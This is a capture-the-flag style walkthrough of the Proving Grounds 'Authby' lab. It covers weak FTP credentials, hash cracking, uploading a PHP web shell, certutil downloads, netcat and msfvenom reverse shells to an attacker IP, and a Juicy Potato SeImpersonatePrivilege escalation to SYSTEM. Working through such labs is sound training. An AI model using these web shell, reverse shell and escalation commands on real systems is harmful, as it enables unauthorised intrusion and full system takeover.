https://banua.medium.com/proving-grounds-authby-oscp-prep-2025-practice-11-5e15de1dd2d3 - For Initial access and local flag.
https://sec-fortress.github.io/posts/pg/posts/Authby.html - For privilege escalation
Nmap scan
```sh
nmap -p- --min-rate 5000 -T4 -Pn 192.168.225.46  
Starting Nmap 7.95 ( https://nmap.org ) at 2026-03-14 10:10 IST
Nmap scan report for 192.168.225.46
Host is up (0.059s latency).
Not shown: 65531 filtered tcp ports (no-response)
PORT     STATE SERVICE
21/tcp   open  ftp
242/tcp  open  direct
3145/tcp open  csi-lfap
3389/tcp open  ms-wbt-server

Nmap done: 1 IP address (1 host up) scanned in 26.49 seconds
```

```sh
nmap -sC -sV -T4 -Pn -p 21,242,3145,3389 192.168.225.46
Starting Nmap 7.95 ( https://nmap.org ) at 2026-03-14 10:11 IST
Nmap scan report for 192.168.225.46
Host is up (0.10s latency).

PORT     STATE SERVICE    VERSION
21/tcp   open  ftp        zFTPServer 6.0 build 2011-10-17
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| total 9680
| ----------   1 root     root      5610496 Oct 18  2011 zFTPServer.exe
| ----------   1 root     root           25 Feb 10  2011 UninstallService.bat
| ----------   1 root     root      4284928 Oct 18  2011 Uninstall.exe
| ----------   1 root     root           17 Aug 13  2011 StopService.bat
| ----------   1 root     root           18 Aug 13  2011 StartService.bat
| ----------   1 root     root         8736 Nov 09  2011 Settings.ini
| dr-xr-xr-x   1 root     root          512 Mar 14 11:41 log
| ----------   1 root     root         2275 Aug 08  2011 LICENSE.htm
| ----------   1 root     root           23 Feb 10  2011 InstallService.bat
| dr-xr-xr-x   1 root     root          512 Nov 08  2011 extensions
| dr-xr-xr-x   1 root     root          512 Nov 08  2011 certificates
|_dr-xr-xr-x   1 root     root          512 Oct 11 00:16 accounts
242/tcp  open  http       Apache httpd 2.2.21 ((Win32) PHP/5.3.8)
|_http-title: 401 Authorization Required
| http-auth: 
| HTTP/1.1 401 Authorization Required\x0D
|_  Basic realm=Qui e nuce nuculeum esse volt, frangit nucem!
|_http-server-header: Apache/2.2.21 (Win32) PHP/5.3.8
3145/tcp open  zftp-admin zFTPServer admin
3389/tcp open  tcpwrapped
| rdp-ntlm-info: 
|   Target_Name: LIVDA
|   NetBIOS_Domain_Name: LIVDA
|   NetBIOS_Computer_Name: LIVDA
|   DNS_Domain_Name: LIVDA
|   DNS_Computer_Name: LIVDA
|   Product_Version: 6.0.6001
|_  System_Time: 2026-03-14T04:42:14+00:00
|_ssl-date: 2026-03-14T04:42:29+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=LIVDA
| Not valid before: 2025-10-09T17:16:18
|_Not valid after:  2026-04-10T17:16:18
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 37.77 seconds
```

First, when accessing port 242 (HTTP), it presented a Basic Authentication prompt requesting a username and password.


Since the Basic Auth credentials were unknown, I explored other services — specifically, attempting to access the FTP service using anonymous login, which turned out to be successful.

Inside the `accounts` directory, there were three files named after users: `offsec`, `anonymous`, and `admin`.

I then attempted to log in to the FTP server using those usernames, with the password set to match the username. As a result, I successfully logged in using the credentials `admin:admin`.

The `admin` user on the FTP server was sharing three files: `index.php`, `.htpasswd`, and `.htaccess`. These files matched the ones hosted on port 242, as confirmed by inspecting `index.php` and `.htaccess`, both of which indicated the use of Basic Authentication.

Since the `.htpasswd` file was present, it was clear that it contained user credentials. Inside, I found the username `offsec` along with its hashed password.



I proceeded to crack the hash using **John the Ripper**. The hash was successfully cracked using the **rockyou** wordlist, revealing the plaintext password: **elite**.

I tried login through browser and it worked, but it wasn't useful to me.


To confirm that the `offsec:elite` credentials could be used to access the HTTP service on port 242, I attempted to authenticate using them — and it worked.
To generate valid authorization we did below.
```sh
echo -n  "offsec:elite" | base64
```
`-n` tells `echo` **not to add a newline (`\n`) at the end**.

Why this matters:

Normal echo output:

`offsec:elite\n`

Without `-n`, the newline would also get encoded in Base64, producing a **different result**.

```sh
curl -X GET http://192.168.225.46:242/ -H "Authorization: Basic b2Zmc2VjOmVsaXRl"
```
We got the same response which we received in browser.

## Initial Access:

Next, I created a PHP file to serve as a web shell.
```sh
<?php system($_GET['cmd']); ?>
```


I uploaded this PHP file to the web root directory via FTP using the `admin:admin` credentials. How did I locate the correct upload path? I had previously tested by uploading a dummy file via FTP and accessing it through the browser. Unfortunately, I forgot to capture the proof at that time (as this write-up was completed quite some time after the initial testing).

After uploading the web shell via FTP, I accessed it through the web and confirmed it was functional. As shown in the evidence below, executing the `whoami` command returned a valid response from the server.

To perform a reverse shell, I first transferred **Netcat** to the target server using `certutil`.

Your shell code likely looks like:

`<?php system($_GET['cmd']); ?>`

So when you open a URL like:

`web_shell.php?cmd=COMMAND`

the server executes:

`system("COMMAND")`



```sh
certutil -urlcache -split -f http://192.168.45.170:8000/nc.exe nc.exe
```
Meaning

`certutil` - Windows certificate utility
`-urlcache` - download file from URL
`-split` - download in chunks
`-f` - force overwrite
`http://192.168.45.193/nc.exe` - file location on attacker machine|
`nc.exe` - save file locally as `nc.exe`

Once Netcat was successfully uploaded, I executed it via the web shell to initiate a reverse shell connection to my listener — and it worked as expected.
Started nc on own machine and the executed following command in browser.
```sh
nc.exe 192.168.45.193 4444 -e cmd.exe
```
# Breakdown of the command

|Part|Meaning|
|---|---|
|`nc.exe`|Netcat program|
|`192.168.45.193`|attacker machine IP|
|`4444`|attacker listening port|
|`-e cmd.exe`|execute Windows command shell|
Shell received.


```cmd
cd \Users
cd apache
dir
cd Desktop
dir
type local.txt
```
Captured local flag in below directory.

## Privilege Escalation: Abuse SeImpersonatePrivilege

To perform privilege escalation, I first checked the user privileges. It turned out that the user I was using had the `SeImpersonatePrivilege` enabled. This privilege can be abused to gain a SYSTEM shell.

Before proceeding with the privilege escalation, I checked the target’s operating system. It turned out to be **Windows Server 2008 Standard**, which meant I couldn’t use **GodPotato**. Instead, I opted for **Juicy Potato** for the privilege escalation exploit.

## Why GodPotato couldn't be used

Different **Potato exploits work on different Windows versions**.

|Exploit|Works on|
|---|---|
|Juicy Potato|Windows Server 2008 / 2012|
|GodPotato|Windows Server 2016+|
|PrintSpoofer|Windows 10 / Server 2019|
|RoguePotato|Newer patched systems|

Because the machine was **Windows Server 2008**, the attacker used **Juicy Potato**.
I compiled a **32-bit EXE file** designed to initiate a reverse shell on a different port. This EXE file would later be used as the payload for Juicy Potato.
### Preparing the Reverse Shell Payload

Juicy Potato needs a **payload executable** to run with SYSTEM privileges.

The attacker created a **reverse shell executable**.

Example payload generation with **msfvenom**:

```sh
msfvenom -p windows/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=1338 -f exe -o shell.exe
```
### Explanation

|Option|Meaning|
|---|---|
|`-p`|payload type|
|`shell_reverse_tcp`|reverse shell|
|`LHOST`|attacker IP|
|`LPORT`|attacker listening port|
|`-f exe`|output executable|
|`-o shell.exe`|output filename|

### Why 32-bit payload?

The exploit used:

Juicy.Potato.x86.exe

So the payload must also be **32-bit**.

Mismatch may cause the exploit to fail.

Example possibilities:

|Output|Meaning|
|---|---|
|x86-based PC|32-bit OS|
|x64-based PC|64-bit OS|

Even if the OS is **64-bit**, it can still run **32-bit executables** using **WoW64** (Windows-on-Windows).

That is why **32-bit payloads often work everywhere**.
So here:

| Exploit              | Architecture |
| -------------------- | ------------ |
| Juicy.Potato.x86.exe | 32-bit       |
| Juicy.Potato.x64.exe | 64-bit       |


### Getting JuicyPotato on system
```sh
wget https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe
```
Now we have juicypotato and reverse shell on our sytem.

Transferring them to target sytem.
I then uploaded the **32-bit Juicy Potato exploit** to the target server. As shown in the evidence below, both `JuicyPotato.exe` and `shell.exe` were placed in the same directory, ready for execution.

We were unable to locate temp directory so we did belo.
```sh
echo %TEMP%
```



In addition, a **CLSID** is required for the exploitation process. I used a CLSID sourced from **Ohpe’s GitHub repository** (link) specifically for Windows Server 2008 R2 Enterprise, which is known to grant **SYSTEM** privileges.

Once everything was in place, I executed **Juicy Potato**. Don’t forget to set up a listener on your **Kali Linux attacker machine**, in this case using port **1338**.
### What CLSID Means

Juicy Potato requires a **CLSID**.

CLSID = **Class Identifier** used by **COM objects**.

Example CLSID used:

{69AD4AEE-51BE-439b-A92C-86AE490E8B30}

CLSID identifies a **COM service running as SYSTEM**.

Juicy Potato abuses **Component Object Model** authentication.

Some COM services:

- run as **SYSTEM**

- authenticate automatically


Juicy Potato tricks them into **authenticating to the attacker process**.

When authentication happens:

SYSTEM token is exposed

Then Juicy Potato **impersonates that token**.

Result:

attacker gets SYSTEM privileges
### For CLSID
https://github.com/ohpe/juicy-potato/tree/master/CLSID

**Till here we did everything correct but we were unable to receive the shell.** (Using msfvenom payload)
**So we performed another method.**Where we used another Juicy potato download link.
https://github.com/ivanitlearning/Juicy-Potato-x86/releases/tag/1.2
1. Upload Netcat to the Target


2. Verify Reverse Shell Works (Important Test)



3. Run JuicyPotato With Netcat
```cmd
Juicy.Potato.x86.exe -t * -p nc.exe -a "192.168.45.170 1337 -e cmd.exe" -l 9999 -c {69AD4AEE-51BE-439b-A92C-86AE490E8B30}
```
Explanation:

|Option|Meaning|
|---|---|
|`-t *`|Try all token types|
|`-p nc.exe`|Program to run as SYSTEM|
|`-a "192.168.45.213 1337 -e cmd.exe"`|Netcat reverse shell|
|`-l 9999`|COM listening port|
|`-c {CLSID}`|Vulnerable COM object|
Important:

- **9999 is internal port for JuicyPotato**

- **1337 is reverse shell port**
Never make them the same.
`t` = **token type**

`*` means:

Try **both impersonation and primary tokens** automatically.

Two token types exist:

|Token|Meaning|
|---|---|
|**Impersonation**|Act as SYSTEM|
|**Primary**|Spawn process as SYSTEM|

`*` = try both so exploit succeeds easier.


And we got the shell and captured the flag.



